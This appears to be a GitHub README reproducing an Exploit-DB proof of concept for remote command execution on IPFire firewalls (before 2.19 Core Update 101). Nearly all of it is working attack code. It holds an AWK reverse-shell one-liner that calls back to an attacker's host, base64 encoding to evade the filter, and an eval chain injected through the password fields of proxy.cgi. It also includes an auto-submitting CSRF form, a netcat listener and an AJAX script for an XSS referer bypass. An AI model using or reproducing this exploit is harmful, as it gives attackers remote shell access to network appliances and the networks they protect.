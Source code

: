 # ipfire_payload
Generate and encoded payload for IPFire reverse-shell

You need to change ip and port in gen_payload.py

Proof of Concept 4 :
======================================================================

Finally, with these three previous PoC, it's possible to combine all the mechanisms to gain a full reverse-shell on IPFire.
IPFire does not have netcat nor telnet, socat, python, ruby, php etc ...
The only way to make a reverse-shell is to use Perl or AWK technics. In this PoC, it's the AWK technic that is used :
(From ASafety Reverse-shell cheat-sheet : http://www.asafety.fr/vuln-exploit-poc/pentesting-etablir-un-reverse-shell-en-une-ligne/)

 * The reverse-shell one-line with AWK is :

awk 'BEGIN {s = "/inet/tcp/0/<IP>/<PORT>"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null

 * To bypass IPFire filter, you need to encode this command in base64 (after modify <IP> and <PORT>) :

YXdrICdCRUdJTiB7cyA9ICIvaW5ldC90Y3AvMC88SVA+LzxQT1JUPiI7IHdoaWxlKDQyKSB7IGRveyBwcmludGYgInNoZWxsPiIgfCYgczsgcyB8JiBnZXRsaW5lIGM7IGlmKGMpeyB3aGlsZSAoKGMgfCYgZ2V0bGluZSkgPiAwKSBwcmludCAkMCB8JiBzOyBjbG9zZShjKTsgfSB9IHdoaWxlKGMgIT0gImV4aXQiKSBjbG9zZShzKTsgfX0nIC9kZXYvbnVsbA==

 * Place a \n at each bloc of 64 chars in the base64 version :

YXdrICdCRUdJTiB7cyA9ICIvaW5ldC90Y3AvMC88SVA+LzxQT1JUPiI7IHdoaWx\nlKDQyKSB7IGRveyBwcmludGYgInNoZWxsPiIgfCYgczsgcyB8JiBnZXRsaW5lIG\nM7IGlmKGMpeyB3aGlsZSAoKGMgfCYgZ2V0bGluZSkgPiAwKSBwcmludCAkMCB8J\niBzOyBjbG9zZShjKTsgfSB9IHdoaWxlKGMgIT0gImV4aXQiKSBjbG9zZShzKTsg\nfX0nIC9kZXYvbnVsbA==

 * This payload can be echo'ed and decoded with openssl, on the fly, into IPFire :

echo -e "YXdrICdCRUdJTiB7cyA9ICIvaW5ldC90Y3AvMC88SVA+LzxQT1JUPiI7IHdoaWx\nlKDQyKSB7IGRveyBwcmludGYgInNoZWxsPiIgfCYgczsgcyB8JiBnZXRsaW5lIG\nM7IGlmKGMpeyB3aGlsZSAoKGMgfCYgZ2V0bGluZSkgPiAwKSBwcmludCAkMCB8J\niBzOyBjbG9zZShjKTsgfSB9IHdoaWxlKGMgIT0gImV4aXQiKSBjbG9zZShzKTsg\nfX0nIC9kZXYvbnVsbA==" | openssl enc -a -d

 * To execute this payload, add backticks and eval call :

eval `echo -e "YXdrICdCRUdJTiB7cyA9ICIvaW5ldC90Y3AvMC88SVA+LzxQT1JUPiI7IHdoaWx\nlKDQyKSB7IGRveyBwcmludGYgInNoZWxsPiIgfCYgczsgcyB8JiBnZXRsaW5lIG\nM7IGlmKGMpeyB3aGlsZSAoKGMgfCYgZ2V0bGluZSkgPiAwKSBwcmludCAkMCB8J\niBzOyBjbG9zZShjKTsgfSB9IHdoaWxlKGMgIT0gImV4aXQiKSBjbG9zZShzKTsg\nfX0nIC9kZXYvbnVsbA==" | openssl enc -a -d`

 * Your payload is ready to be used into POST param in proxy.cgi, like the previous PoC :

||eval `echo -e "YXdrICdCRUdJTiB7cyA9ICIvaW5ldC90Y3AvMC88SVA+LzxQT1JUPiI7IHdoaWx\nlKDQyKSB7IGRveyBwcmludGYgInNoZWxsPiIgfCYgczsgcyB8JiBnZXRsaW5lIG\nM7IGlmKGMpeyB3aGlsZSAoKGMgfCYgZ2V0bGluZSkgPiAwKSBwcmludCAkMCB8J\niBzOyBjbG9zZShjKTsgfSB9IHdoaWxlKGMgIT0gImV4aXQiKSBjbG9zZShzKTsg\nfX0nIC9kZXYvbnVsbA==" | openssl enc -a -d`;#

 * Full PoC (IPFire < 2.19 Core Update 101) 
 (if the referer is defined to IPFire URL, and a netcat is listening # nc -l -vv -p 1337) :

<html>
  <body>
    <form name='x' action='https://<IPFire_IP>:444/cgi-bin/proxy.cgi' method='post'>
      <input type='hidden' name='NCSA_PASS' value='||eval `echo -e "YXdrICdCRUdJTiB7cyA9ICIvaW5ldC90Y3AvMC8xOTIuMTY4LjAuMi8xMzM3Ijsg\nd2hpbGUoNDIpIHsgZG97IHByaW50ZiAic2hlbGw+IiB8JiBzOyBzIHwmIGdldGxp\nbmUgYzsgaWYoYyl7IHdoaWxlICgoYyB8JiBnZXRsaW5lKSA+IDApIHByaW50ICQw\nIHwmIHM7IGNsb3NlKGMpOyB9IH0gd2hpbGUoYyAhPSAiZXhpdCIpIGNsb3NlKHMp\nOyB9fScgL2Rldi9udWxs" | openssl enc -a -d`;#' />
      <input type='hidden' name='NCSA_PASS_CONFIRM' value='||eval `echo -e "YXdrICdCRUdJTiB7cyA9ICIvaW5ldC90Y3AvMC8xOTIuMTY4LjAuMi8xMzM3Ijsg\nd2hpbGUoNDIpIHsgZG97IHByaW50ZiAic2hlbGw+IiB8JiBzOyBzIHwmIGdldGxp\nbmUgYzsgaWYoYyl7IHdoaWxlICgoYyB8JiBnZXRsaW5lKSA+IDApIHByaW50ICQw\nIHwmIHM7IGNsb3NlKGMpOyB9IH0gd2hpbGUoYyAhPSAiZXhpdCIpIGNsb3NlKHMp\nOyB9fScgL2Rldi9udWxs" | openssl enc -a -d`;#' />
	  <input type='hidden' name='NCSA_USERNAME' value='yanncam' />
      <input type='hidden' name='ACTION' value='Ajouter' />
    </form>
    <script>document.forms['x'].submit();</script>
  </body>
</html>

Note that none <IP>/<Port> are defined in the previous payload, you need to reproduce these different steps.

 * With the XSS method to bypass CSRF Referer checking, the third party JS script can be :

var headx=document.getElementsByTagName('head')[0];
var jq= document.createElement('script');
jq.type= 'text/javascript';
jq.src= 'http://code.jquery.com/jquery-latest.min.js';
headx.appendChild(jq);
function loadX(){ // AJAX CSRF bypass referer checking !
    $.ajax({
      type: 'POST',
      url: "https://<IPFire_IP>:444/cgi-bin/proxy.cgi",
      contentType: 'application/x-www-form-urlencoded;charset=utf-8',
      dataType: 'text',
      data: 'NCSA_USERNAME=yanncam&ACTION=Ajouter&NCSA_PASS=||eval `echo -e "YXdrICdCRUdJTiB7cyA9ICIvaW5ldC90Y3AvMC8xOTIuMTY4LjEuMzIvMTMzNyI7\nIHdoaWxlKDQyKSB7IGRveyBwcmludGYgInNoZWxsPiIgfCYgczsgcyB8JiBnZXRs\naW5lIGM7IGlmKGMpeyB3aGlsZSAoKGMgfCYgZ2V0bGluZSkgPiAwKSBwcmludCAk\nMCB8JiBzOyBjbG9zZShjKTsgfSB9IHdoaWxlKGMgIT0gImV4aXQiKSBjbG9zZShz\nKTsgfX0nIC9kZXYvbnVsbA==" | openssl enc -a -d`;#&NCSA_PASS_CONFIRM=||eval `echo -e "YXdrICdCRUdJTiB7cyA9ICIvaW5ldC90Y3AvMC8xOTIuMTY4LjEuMzIvMTMzNyI7\nIHdoaWxlKDQyKSB7IGRveyBwcmludGYgInNoZWxsPiIgfCYgczsgcyB8JiBnZXRs\naW5lIGM7IGlmKGMpeyB3aGlsZSAoKGMgfCYgZ2V0bGluZSkgPiAwKSBwcmludCAk\nMCB8JiBzOyBjbG9zZShjKTsgfSB9IHdoaWxlKGMgIT0gImV4aXQiKSBjbG9zZShz\nKTsgfX0nIC9kZXYvbnVsbA==" | openssl enc -a -d`;#'
    });
  }
setTimeout("loadX()",2000);





Source : https://www.exploit-db.com/exploits/39765



